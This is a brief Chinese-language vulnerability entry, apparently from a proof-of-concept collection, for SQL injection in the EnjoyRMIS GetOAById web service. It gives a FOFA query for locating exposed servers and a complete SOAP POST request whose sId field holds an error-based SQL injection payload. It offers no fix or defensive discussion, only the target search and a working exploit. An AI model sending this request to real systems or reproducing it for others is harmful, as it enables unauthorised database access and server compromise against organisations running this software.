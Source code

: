 ## EnjoyRMIS-GetOAById存在SQL注入漏洞

  EnjoyRMIS GetOAById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

## fofa

```
body="CheckSilverlightInstalled"
```
![image](https://github.com/user-attachments/assets/6f0d932a-9f40-4c61-a60f-a2ab5f4334fa)

## poc

```yaml
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOAById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOAById xmlns="http://tempuri.org/">
      <sId>string' AND 8448 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(113)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (8448=8448) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(107)+CHAR(113)+CHAR(113))) AND 'OFyo'='OFyo</sId>
    </GetOAById>
  </soap:Body>
</soap:Envelope>
```

![image-20240707203405896](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072034047.png)
